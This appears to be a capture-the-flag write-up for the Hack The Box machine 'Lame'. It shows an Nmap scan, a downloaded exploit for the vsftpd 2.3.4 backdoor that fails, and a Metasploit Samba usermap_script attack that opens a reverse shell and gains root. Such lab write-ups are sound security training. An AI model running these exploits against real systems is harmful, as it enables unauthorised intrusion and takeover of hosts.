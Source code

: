 
# Hack The Box: Lame (Retired Machine)

![](attachments/Pasted%20image%2020251016184744.png)
- [1. Executive Summary](#1-executive-summary)
- [2. Scanning & Enumeration](#2-scanning--enumeration)
	- [2.1 Port Scan](#21-port-scan)
		- [2.1.1 Output](#211-output)
- [3. Vulnerability Analysis](#3-vulnerability-analysis)
	- [3.1 Remote Shell Access with CVE-2011-2523](#31-remote-shell-access-with-cve-2011-2523)
		- [3.1.1 Fetch and Execute Script](#311-fetch-and-execute-script)
		- [3.1.2 Output](#312-output)
	- [3.2 Remote Command Execution with CVE-2007-2447](#32-remote-command-execution-with-cve-2007-2447)
		- [3.2.1 Launch and Configure Exploit](#321-launch-and-configure-exploit)
		- [3.2.2 Execute Exploit](#322-execute-exploit)
		- [3.2.3 Output](#323-output)
## 1. Executive Summary

This report outlines the penetration test conducted on the target host `lame.htb` under the HackTheBox environment. 

The goal was to identify vulnerabilities and provide recommendations for securing the system.

## 2. Scanning & Enumeration

### 2.1 Port Scan

The following Nmap command was executed:

```bash
nmap -Pn -sC -sV -oN lame.nmap -vv lame.htb
```

#### 2.1.1 Output

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-16 15:07 UTC
Nmap scan report for 10.129.33.67
Host is up (0.086s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m36s, deviation: 2h49m46s, median: 33s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-10-16T11:08:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 61.22 seconds
```

## 3. Vulnerability Analysis

### 3.1 Remote Shell Access with CVE-2011-2523

> vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp.
> 
> Source: https://www.cvedetails.com/cve/CVE-2011-2523

#### 3.1.1 Fetch and Execute Script

```bash
curl https://www.exploit-db.com/download/49757 -o CVE-2011-2523.py
```

```bash
python3 CVE-2011-2523.py lame.htb
```

#### 3.1.2 Output

```bash
# The command did not execute successfully, indicating potential issues that require further investigation.
```

### 3.2 Remote Command Execution with CVE-2007-2447

> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
>
>Source: https://www.cvedetails.com/cve/CVE-2007-2447


#### 3.2.1 Launch and Configure Exploit

```bash
msfconsole

use exploit/multi/samba/usermap_script
set RHOST lame.htb
set LHOST 10.10.14.48
```

#### 3.2.2 Execute Exploit

```bash
exploit
```

#### 3.2.3 Output 

```bash
[*] Started reverse TCP handler on 10.10.14.48:4444 
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.34.7:54082) at 2025-10-16 15:02:33 +0000

whoami
root
```